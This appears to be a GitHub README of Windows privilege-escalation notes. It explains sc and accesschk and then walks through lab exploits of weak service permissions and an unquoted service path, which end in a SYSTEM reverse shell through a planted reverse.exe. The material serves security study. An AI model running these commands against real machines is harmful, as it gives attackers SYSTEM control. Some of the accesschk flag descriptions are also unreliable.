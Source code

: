 # windows-hacking









________________________


**sc command**

The sc command in Windows is used to 
communicate with the Service Control Manager and services. 
It allows users to query, start, stop, pause, resume, and modify services on the local or a remote computer.

To start a service named "MyService", you can use the following command:
```
sc start MyService
```

_________________________

**Accesschk**


Accesschk is a command-line tool in the Windows Sysinternals suite created by Microsoft that allows users to view the security settings of files, directories, registry keys, and services on a Windows system. It provides a detailed report of the access control lists (ACLs) and permission settings for various objects, helping users to quickly identify any security vulnerabilities or misconfigurations.

Accesschk can be used to audit and troubleshoot permissions on a system, ensuring that only authorized users have access to sensitive resources. It is particularly useful for system administrators and security professionals who need to perform security assessments and ensure compliance with organizational security policies.

Some common use cases for Accesschk include:
- Verifying that a specific user or group has the necessary permissions to access a certain file or directory
- Checking the permissions of a service to determine if it is properly configured
- Identifying potential security risks by discovering overly permissive access controls
- Troubleshooting access issues by comparing the expected permissions with the actual permissions set on an object

Accesschk is a powerful tool that can help improve the security posture of a Windows system by providing valuable insights into its security settings. However, it should be used with caution, as making changes to permissions without understanding the consequences can potentially lead to system instability or security breaches.


______________________

1. accesschk -w Users C:\Program Files\ExampleApp
This command checks the access control permissions for the "Users" group on the ExampleApp folder located at C:\Program Files. It will show the specific permissions that the Users group has on that folder.

2. accesschk -s -q -c HKLM\SOFTWARE
This command checks the security permissions for the HKLM\SOFTWARE registry key. The -s flag specifies that it should recurse into all subkeys, the -q flag suppresses the banner and column headers, and the -c flag specifies that only the key security settings should be displayed.

3. accesschk -uwc "Authenticated Users" C:\Windows\System32
This command checks the specific permissions for the "Authenticated Users" group on the System32 folder in the Windows directory. The -u flag specifies that it should only display specific user or group permissions, and the -w flag specifies displaying the effective access for each object.

4. accesschk -q -o *.dll C:\Windows
This command checks the security permissions for all DLL files in the Windows directory. The -q flag suppresses the banner and column headers, and the -o flag specifies that only objects matching the search pattern should be displayed.

5. accesschk -q -f -s -u Everyone C:\
This command checks the security permissions for all files and folders on the C:\ drive for the "Everyone" group. The -f flag specifies that it should also check file permissions, the -s flag specifies that it should recurse into subdirectories, and the -u flag forces it to display the user/group name for each object.


_______________


**How to get Autority**



Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

```
sc qc daclsvc
```

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start daclsvc
```

_________________

#  Service Exploits - Unquoted Service Path 




Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
```
sc qc unquotedsvc
```
Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
Copy the reverse.exe executable you created to this directory and rename it Common.exe:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start unquotedsvc
```


SERVICE_START_NAME: LOCALSystem si riferisce al nome dell'account utente utilizzato per avviare un servizio in un sistema operativo Windows. In questo caso, LOCALSystem si riferisce all'account di sistema locale, che ha i diritti e i privilegi più elevati su un computer ed è in grado di accedere a risorse di sistema protette. Quando un servizio viene avviato con questo account, esso ha un elevato livello di controllo e autorizzazione sul sistema.

![Screenshot 2024-03-19 alle 14 44 12](https://github.com/MrMagicalSoftware/windows-hacking/assets/98833112/d9e20c33-3465-4aac-8af5-118c81bc1d32)












